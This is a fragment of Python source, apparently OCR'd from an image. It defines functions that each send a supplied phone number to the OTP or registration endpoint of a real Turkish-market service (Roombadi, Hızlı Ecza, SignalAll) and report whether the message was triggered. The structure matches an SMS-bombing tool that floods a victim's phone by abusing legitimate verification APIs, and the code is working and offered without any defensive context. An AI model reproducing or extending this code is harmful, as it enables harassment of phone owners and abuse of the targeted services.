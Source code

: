     except:
        return False, "Rabbit"

def roombadi(number):
    try:
        url = "https://api.roombadi.com/api/v1/auth/otp/authenticate"
        payload = {"phone": f"{number}", "countryId": 2}
        r = requests.post(url=url, json=payload, timeout=5)
        if r.status_code == 200:
            return True, "Roombadi"
        else:
            return False, "Roombadi"
    except:
        return False, "Roombadi"

def hizliecza(number):
    try:
        url = "https://hizlieczaprodapi.hizliecza.net/mobil/account/sendOTP"
        payload = {"phoneNumber": f"+90{number}", "otpOperationType": 2}
        r = requests.post(url=url, json=payload, timeout=5)
        r1 = json.loads(r.text)["isSuccess"]
        if r1 == True:
            return True, "Hızlı Ecza"
        else:
            return False, "Hızlı Ecza"
    except:
        return False, "Hızlı Ecza"

def signalall(number):
    try:
        url = "https://appservices.huzk.com/client/register"
        payload = {
            "name": "",
            "phone": {
                "number": f"{number}",
                "code": "90",
                "country_code": "TR",
                "name": ""
            },
            "countryCallingCode": "+90",
            "countryCode": "TR",
            "approved": True,
            "notifyType": 99,
            "favorites": [],
            "appKey": "live-exchange"
        }
        r = requests.post(url=url, json=payload, timeout=5)
        r1 = json.loads(r.text)["success"]
        if r1 == True:
            return True, "SignalAll"
        else:
            return False, "SignalAll"
    except:
        return False, "SignalAll"
